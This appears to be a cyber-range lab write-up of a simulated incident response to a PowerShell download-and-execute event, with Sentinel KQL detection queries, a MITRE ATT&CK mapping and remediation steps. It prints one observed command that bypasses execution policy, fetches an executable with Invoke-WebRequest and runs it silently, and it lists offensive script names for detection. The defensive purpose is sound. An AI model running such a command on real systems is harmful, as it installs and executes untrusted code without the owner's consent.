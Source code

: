 # Scenario 2 – PowerShell Web Request and Payload Execution

_A simulated incident response to unauthorized file download and execution via PowerShell, detected through Microsoft Sentinel and Microsoft Defender for Endpoint._

![Alt text](/imgs/powershellmap.png)
---

## 1. Preparation  
- **Objective:** Detect post-exploitation activity involving tools downloaded from the internet via PowerShell.  
- **Context:** Attackers often use built-in tools like `Invoke-WebRequest` to pull malware or scripts onto systems undetected.  
- **Detection Method:** A Microsoft Sentinel analytic rule was configured to trigger if PowerShell includes `Invoke-WebRequest`.  
- **Detection Query:**
  ```
  DeviceProcessEvents
  | where DeviceName == "windows-ado"
  | where FileName == "powershell.exe"
  | where ProcessCommandLine contains "Invoke-WebRequest"
  ```
## 2. Detection & Analysis
- **Alert Name:** PowerShell SuspiciousWebRequest - ADO
- **Affected Host:** windows-ado
- **Triggered By:** User labuser
- **Observed Command:**
    ```powershell
    cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait
    ```

- **User Statement:** Claimed they were installing free software and saw a brief black screen.
- **Initial Findings:** The binary was silently installed using PowerShell with no visible prompts.
- **Process Execution Verification:**
	```kql
    let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1","7z2408-x64.exe"]); 
	DeviceProcessEvents
	| where DeviceName == "windows-ado"
	| where FileName == "powershell.exe"
	| where ProcessCommandLine has "-File" and ProcessCommandLine has_any (ScriptNames)
	| order by TimeGenerated
	| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
    ```
- **Confirmed Executions:** Multiple suspicious scripts were launched by labuser.
- **Reverse Engineering Summary:**
    - portscan.ps1: Scans a range of IPs for open common ports and logs results.
    - Other scripts (e.g., pwncrypt, exfiltratedata) suspected of offensive behavior — passed to RE team.

## 3. MITRE ATT&CK Mapping
| Tactic | Technique | ID | Notes |
|--------|-----------|---|-------|
| Execution	| Command and Scripting Interpreter | T1059.001 | PowerShell used to invoke remote command |
| Ingress Tool | Ingress Tool Transfer | T1105 | External .exe pulled from remote blob storage |
| Initial Access | Exploitation for Client Execution | T1203 | Downloaded .exe silently executed |

## 4. Containment, Eradication & Recovery
- **Containment:**
    - Isolated windows-ado using Microsoft Defender for Endpoint.
    - Terminated PowerShell processes.
- **Eradication:**
    - Ran full antivirus scan on the host — returned clean.
    - Deleted downloaded .exe and any residual scripts.
- **Recovery:**
    - Restored network access after validation.
    - Monitored for reoccurrence of suspicious PowerShell use.

## 5. Post-Incident Activities
- **User Remediation:**
    - labuser was enrolled in additional cybersecurity awareness training.
    - Training materials upgraded using advanced KnowBe4 modules.
- **Policy Changes:**
    - PowerShell usage restricted via GPO/AppLocker for non-administrative accounts.
    - Alerting expanded for all downloads via Invoke-WebRequest.
- **Detection Enhancements:**
    - Deployed the Sentinel KQL rule as a permanent detection rule.
    - Enabled advanced PowerShell logging (ScriptBlockLogging, ModuleLogging).
    

## 6. Recommendations & Next Steps
- Block high-risk URLs and domains using firewall/Defender policies.
- Monitor for common PowerShell download patterns across all endpoints.
- Restrict internet access from non-administrative workstations.
- Establish a file reputation service to alert on unsigned executables.

> [!NOTE]
> These recommendations are illustrative and should be tailored to your organization’s specific environment, policies, and risk tolerance and technical environment.
